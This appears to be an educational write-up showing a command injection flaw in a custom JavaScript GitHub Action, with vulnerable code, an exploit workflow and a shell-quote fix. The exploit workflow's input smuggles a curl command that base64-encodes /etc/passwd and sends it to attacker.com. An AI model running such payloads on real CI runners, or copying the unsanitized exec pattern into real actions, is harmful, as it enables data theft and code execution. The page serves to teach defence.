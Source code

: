 # Advanced Attack Scenario 5: Exploiting vulnerabilities in custom GitHub Actions written in JavaScript or Docker

This scenario demonstrates how an attacker can exploit a command injection vulnerability in a custom GitHub Action written in JavaScript.

## The Vulnerability

A custom GitHub Action written in JavaScript that has a command injection vulnerability. The vulnerability lies in the fact that the action does not properly sanitize user input before using it to construct a shell command.

**Vulnerable Code (`action.yml`):**

```yaml
name: 'Vulnerable Action'
description: 'A vulnerable custom action'
inputs:
  name:
    description: 'A name to greet'
    required: true
    default: 'World'
runs:
  using: 'node16'
  main: 'index.js'
```

**Vulnerable Code (`index.js`):**

```javascript
const core = require('@actions/core');
const exec = require('@actions/exec');

async function run() {
  try {
    const name = core.getInput('name');
    await exec.exec(`echo "Hello, ${name}!"`);
  } catch (error) {
    core.setFailed(error.message);
  }
}

run();
```

## The Exploitation

An attacker can exploit the vulnerability to execute arbitrary commands on the runner.

**Malicious Payload:**

An attacker can create a workflow that uses the vulnerable action and passes a malicious payload as the `name` input.

```yaml
name: Malicious Workflow
on:
  push:
jobs:
  malicious_job:
    runs-on: ubuntu-latest
    steps:
      - uses: ./path/to/vulnerable-action
        with:
          name: '; curl http://attacker.com/$(cat /etc/passwd | base64)'
```

**Expected Outcome:**

The workflow will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## The Mitigation

To mitigate this vulnerability, you should properly sanitize user input in your custom GitHub Actions. For example, you can use a library like `shell-quote` to escape any special characters in the user input.

**Fixed Code (`index.js`):**

```javascript
const core = require('@actions/core');
const exec = require('@actions/exec');
const quote = require('shell-quote');

async function run() {
  try {
    const name = core.getInput('name');
    const quotedName = quote.quote([name]);
    await exec.exec(`echo "Hello, ${quotedName}!"`);
  } catch (error) {
    core.setFailed(error.message);
  }
}

run();
```
